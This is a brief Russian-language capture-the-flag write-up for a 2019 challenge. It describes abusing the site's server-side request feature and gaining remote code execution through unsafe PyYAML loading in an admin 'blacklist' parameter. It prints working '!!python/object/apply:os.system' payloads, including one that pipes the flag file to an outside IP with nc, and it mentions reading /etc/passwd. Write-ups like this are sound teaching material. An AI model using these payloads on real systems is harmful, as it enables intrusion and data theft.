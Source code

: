 1. Смотрим, какие проверки делает сайт и отвравляем его проверить наш сервер 89.163.129.121:9999. 
Видим, что он отправляет  {"key": "test_key", "value": "test_value"} и проверяет value. Запускаем  
```
value while true; do echo -e "HTTP/1.1 200 OK\n\n  test_value" | nc -l -v -p 9999 -q 1;done
```
на 89.163.129.121 и получаем 1-й флаг.

2. Видим, что запросы через http://b121.ctf2019.rocks/integration/ на закрытый порт падают с ошибкой из  urllib3 
питона.

3. Находим адимнку. Проверям как сайт реагирует на параметры в  http://localhost/admin/?blacklist= . Видим, что он падает с 500
ошибкой про несбалансированных кавычках. Поиск по python remote code execution привел к уязвимости в  pyyaml. 
Передаем http://localhost/admin/?blacklist=!!python/object/apply:os.system ["sleep 5"] и подтверждаем уязвимость. 
Достаем флаг в http://localhost/admin/?blacklist=!!python/object/apply:os.system [" cat flag | nc 89.163.129.121:9999"]
Находим дополнительные флаги в ./integration.db  и /etc/passwd
